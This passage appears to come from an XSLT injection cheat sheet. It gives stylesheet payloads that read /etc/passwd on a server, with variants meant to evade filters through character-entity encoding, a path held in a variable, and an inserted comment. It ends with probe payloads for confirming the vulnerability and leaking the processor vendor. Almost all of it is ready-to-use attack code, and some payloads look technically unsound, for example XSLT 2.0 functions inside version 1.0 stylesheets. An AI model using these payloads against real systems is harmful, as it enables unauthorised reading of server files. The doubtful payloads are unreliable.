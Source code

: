 ### Entity Encoding

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:value-of select="unparsed-text('&#102;&#105;&#108;&#101;&#58;&#47;&#47;&#47;&#101;&#116;&#99;&#47;&#112;&#97;&#115;&#115;&#119;&#100;')"/>
  </xsl:template>
</xsl:stylesheet>
```

### Dynamic Evaluation

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:variable name="path" select="'file:///etc/passwd'"/>
  <xsl:template match="/">
    <xsl:copy-of select="document($path)"/>
  </xsl:template>
</xsl:stylesheet>
```

### Comment Obfuscation

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:value-of select="doc<!--Comment-->ument('/etc/passwd')"/>
  </xsl:template>
</xsl:stylesheet>
```

## Detection Methods

### Testing for XSLT Vulnerability

1. Input: Inject a simple XSLT that outputs a unique string
```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:text>XSLT_INJECTION_TEST_SUCCESSFUL</xsl:text>
  </xsl:template>
</xsl:stylesheet>
```

2. Input: Check for information disclosure
```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:value-of select="system-property('xsl:vendor')"/>
  </xsl:template>
</xsl:stylesheet>
```
